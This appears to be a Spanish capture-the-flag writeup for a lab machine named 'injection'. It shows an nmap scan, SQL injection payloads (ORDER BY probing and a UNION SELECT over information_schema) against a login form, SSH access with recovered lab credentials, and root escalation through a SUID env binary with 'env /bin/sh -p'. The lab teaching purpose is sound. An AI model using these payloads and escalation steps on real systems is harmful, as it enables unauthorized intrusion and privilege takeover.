









# Writeup - Injection

## Objetivo

El objetivo de la máquina **injection** es explotar una vulnerabilidad de **SQL Injection** para obtener acceso inicial al sistema y, posteriormente, escalar privilegios hasta `root`.

---

## Enumeración

Comenzamos realizando un escaneo con `nmap` sobre la máquina objetivo para identificar los servicios expuestos.

```bash
sudo nmap -sS -Pn -n -sC -sV --top-ports 50 --open 172.17.0.2
```


El escaneo muestra dos puertos abiertos:

- `22/tcp` - SSH
- `80/tcp` - HTTP

En el puerto `80` se identifica un servidor **Apache 2.4.52**.

> [!NOTE]
> Aunque la versión de Apache identificada fue revisada por si existían vulnerabilidades conocidas asociadas, finalmente la vía de explotación no se basó en el servicio Apache como tal, sino en una SQL Injection presente en el panel de autenticación web.

---

## Enumeración web

Accedemos al servicio web desde el navegador:

```text
http://172.17.0.2
```


En la página principal encontramos un panel de autenticación. Dado que el objetivo del laboratorio es explotar una **SQL Injection**, probamos directamente una inyección sobre el formulario de login.

Para comprobar el número de columnas de la consulta, se puede utilizar `ORDER BY`. Al probar hasta la columna 3, la consulta falla, por lo que se deduce que la respuesta trabaja con 2 columnas.

```sql
' order by 1-- -
' order by 2-- -
' order by 3-- -
```


Al fallar con `ORDER BY 3`, sabemos que la consulta original devuelve 2 columnas.

---

## Explotación de SQL Injection

Una vez identificado que la consulta devuelve 2 columnas, utilizamos una inyección `UNION SELECT` para extraer información desde `information_schema.schemata`.

La payload utilizada fue la siguiente:

```sql
2379873' union select group_concat(schema_name),2 from information_schema.schemata-- -
```


Con esta cadena conseguimos acceder al panel y obtener credenciales válidas para el usuario `dylan`.



Credenciales obtenidas:

```text
Usuario: dylan
Contraseña: KJSDFG789FGSDF78
```

---

## Acceso inicial por SSH

Probamos las credenciales obtenidas contra el servicio SSH expuesto en la máquina:

```bash
ssh dylan@172.17.0.2
```

Introducimos la contraseña obtenida previamente y conseguimos acceso al sistema como el usuario `dylan`.



---

## Enumeración local

Una vez dentro de la máquina, intentamos comprobar si el usuario tiene permisos de `sudo`:

```bash
sudo -l
```

Sin embargo, el sistema indica que el comando `sudo` no está presente, por lo que continuamos buscando otras vías de escalada de privilegios.

Buscamos binarios con permisos SUID mediante el siguiente comando:

```bash
find / -perm -4000 -type f 2>/dev/null
```



Entre los binarios encontrados, detectamos `/usr/bin/env` con permisos SUID:

```text
-rwsr-xr-x root root /usr/bin/env
```

> [!NOTE]
> Para agilizar el análisis de los binarios SUID encontrados, utilicé IA como apoyo para priorizar posibles vectores de escalada. Tras identificar `/usr/bin/env` como candidato interesante, validé la técnica consultando GTFOBins y comprobando su comportamiento en la máquina.

---

## Escalada de privilegios

Al revisar el binario `/usr/bin/env`, comprobamos que puede ser abusado para ejecutar una shell preservando privilegios.

Según GTFOBins, si `env` tiene permisos SUID, podemos ejecutar una shell privilegiada con el siguiente comando:

```bash
env /bin/sh -p
```


> [!TIP]
> Se aprende porque se puede usar el binario `/usr/bin/env` para escalar privilegios. Dado que se usa para ejecutar un programa en un entorno determinado y tiene `SUID` activado.

Tras ejecutar el comando, comprobamos nuestra identidad efectiva:

```bash
id
```

La salida muestra que tenemos `euid=0`, lo que indica que estamos ejecutando comandos con privilegios de `root`.

También podemos confirmarlo con:

```bash
whoami
```

El resultado confirma que somos `root`.

---

## Comprobación de acceso como root

Finalmente, verificamos que tenemos acceso al directorio `/root`:

```bash
ls -la /root
```


Podemos listar el contenido del directorio, confirmando que la escalada de privilegios se ha realizado correctamente.

---

## Conclusión

La máquina **injection** fue comprometida inicialmente mediante una vulnerabilidad de **SQL Injection** en el panel de autenticación web.

A través de la inyección, se obtuvieron credenciales válidas para el usuario `dylan`, lo que permitió acceder al sistema mediante SSH.

Una vez dentro, se intentó enumerar permisos con `sudo`, pero el comando no estaba disponible. Posteriormente, se identificó el binario `/usr/bin/env` con permisos SUID. Abusando de este binario mediante la técnica documentada en GTFOBins, fue posible obtener una shell con privilegios efectivos de `root`.

De esta forma, se completó el objetivo de la máquina: obtener acceso inicial mediante SQL Injection y escalar privilegios hasta `root`.

---

## Lecciones Aprendidas

- Aplicación de **SQLi**.
- Escalada de privilegios abusando de **SUID**.
- Aprender como funciona el binario `env`.

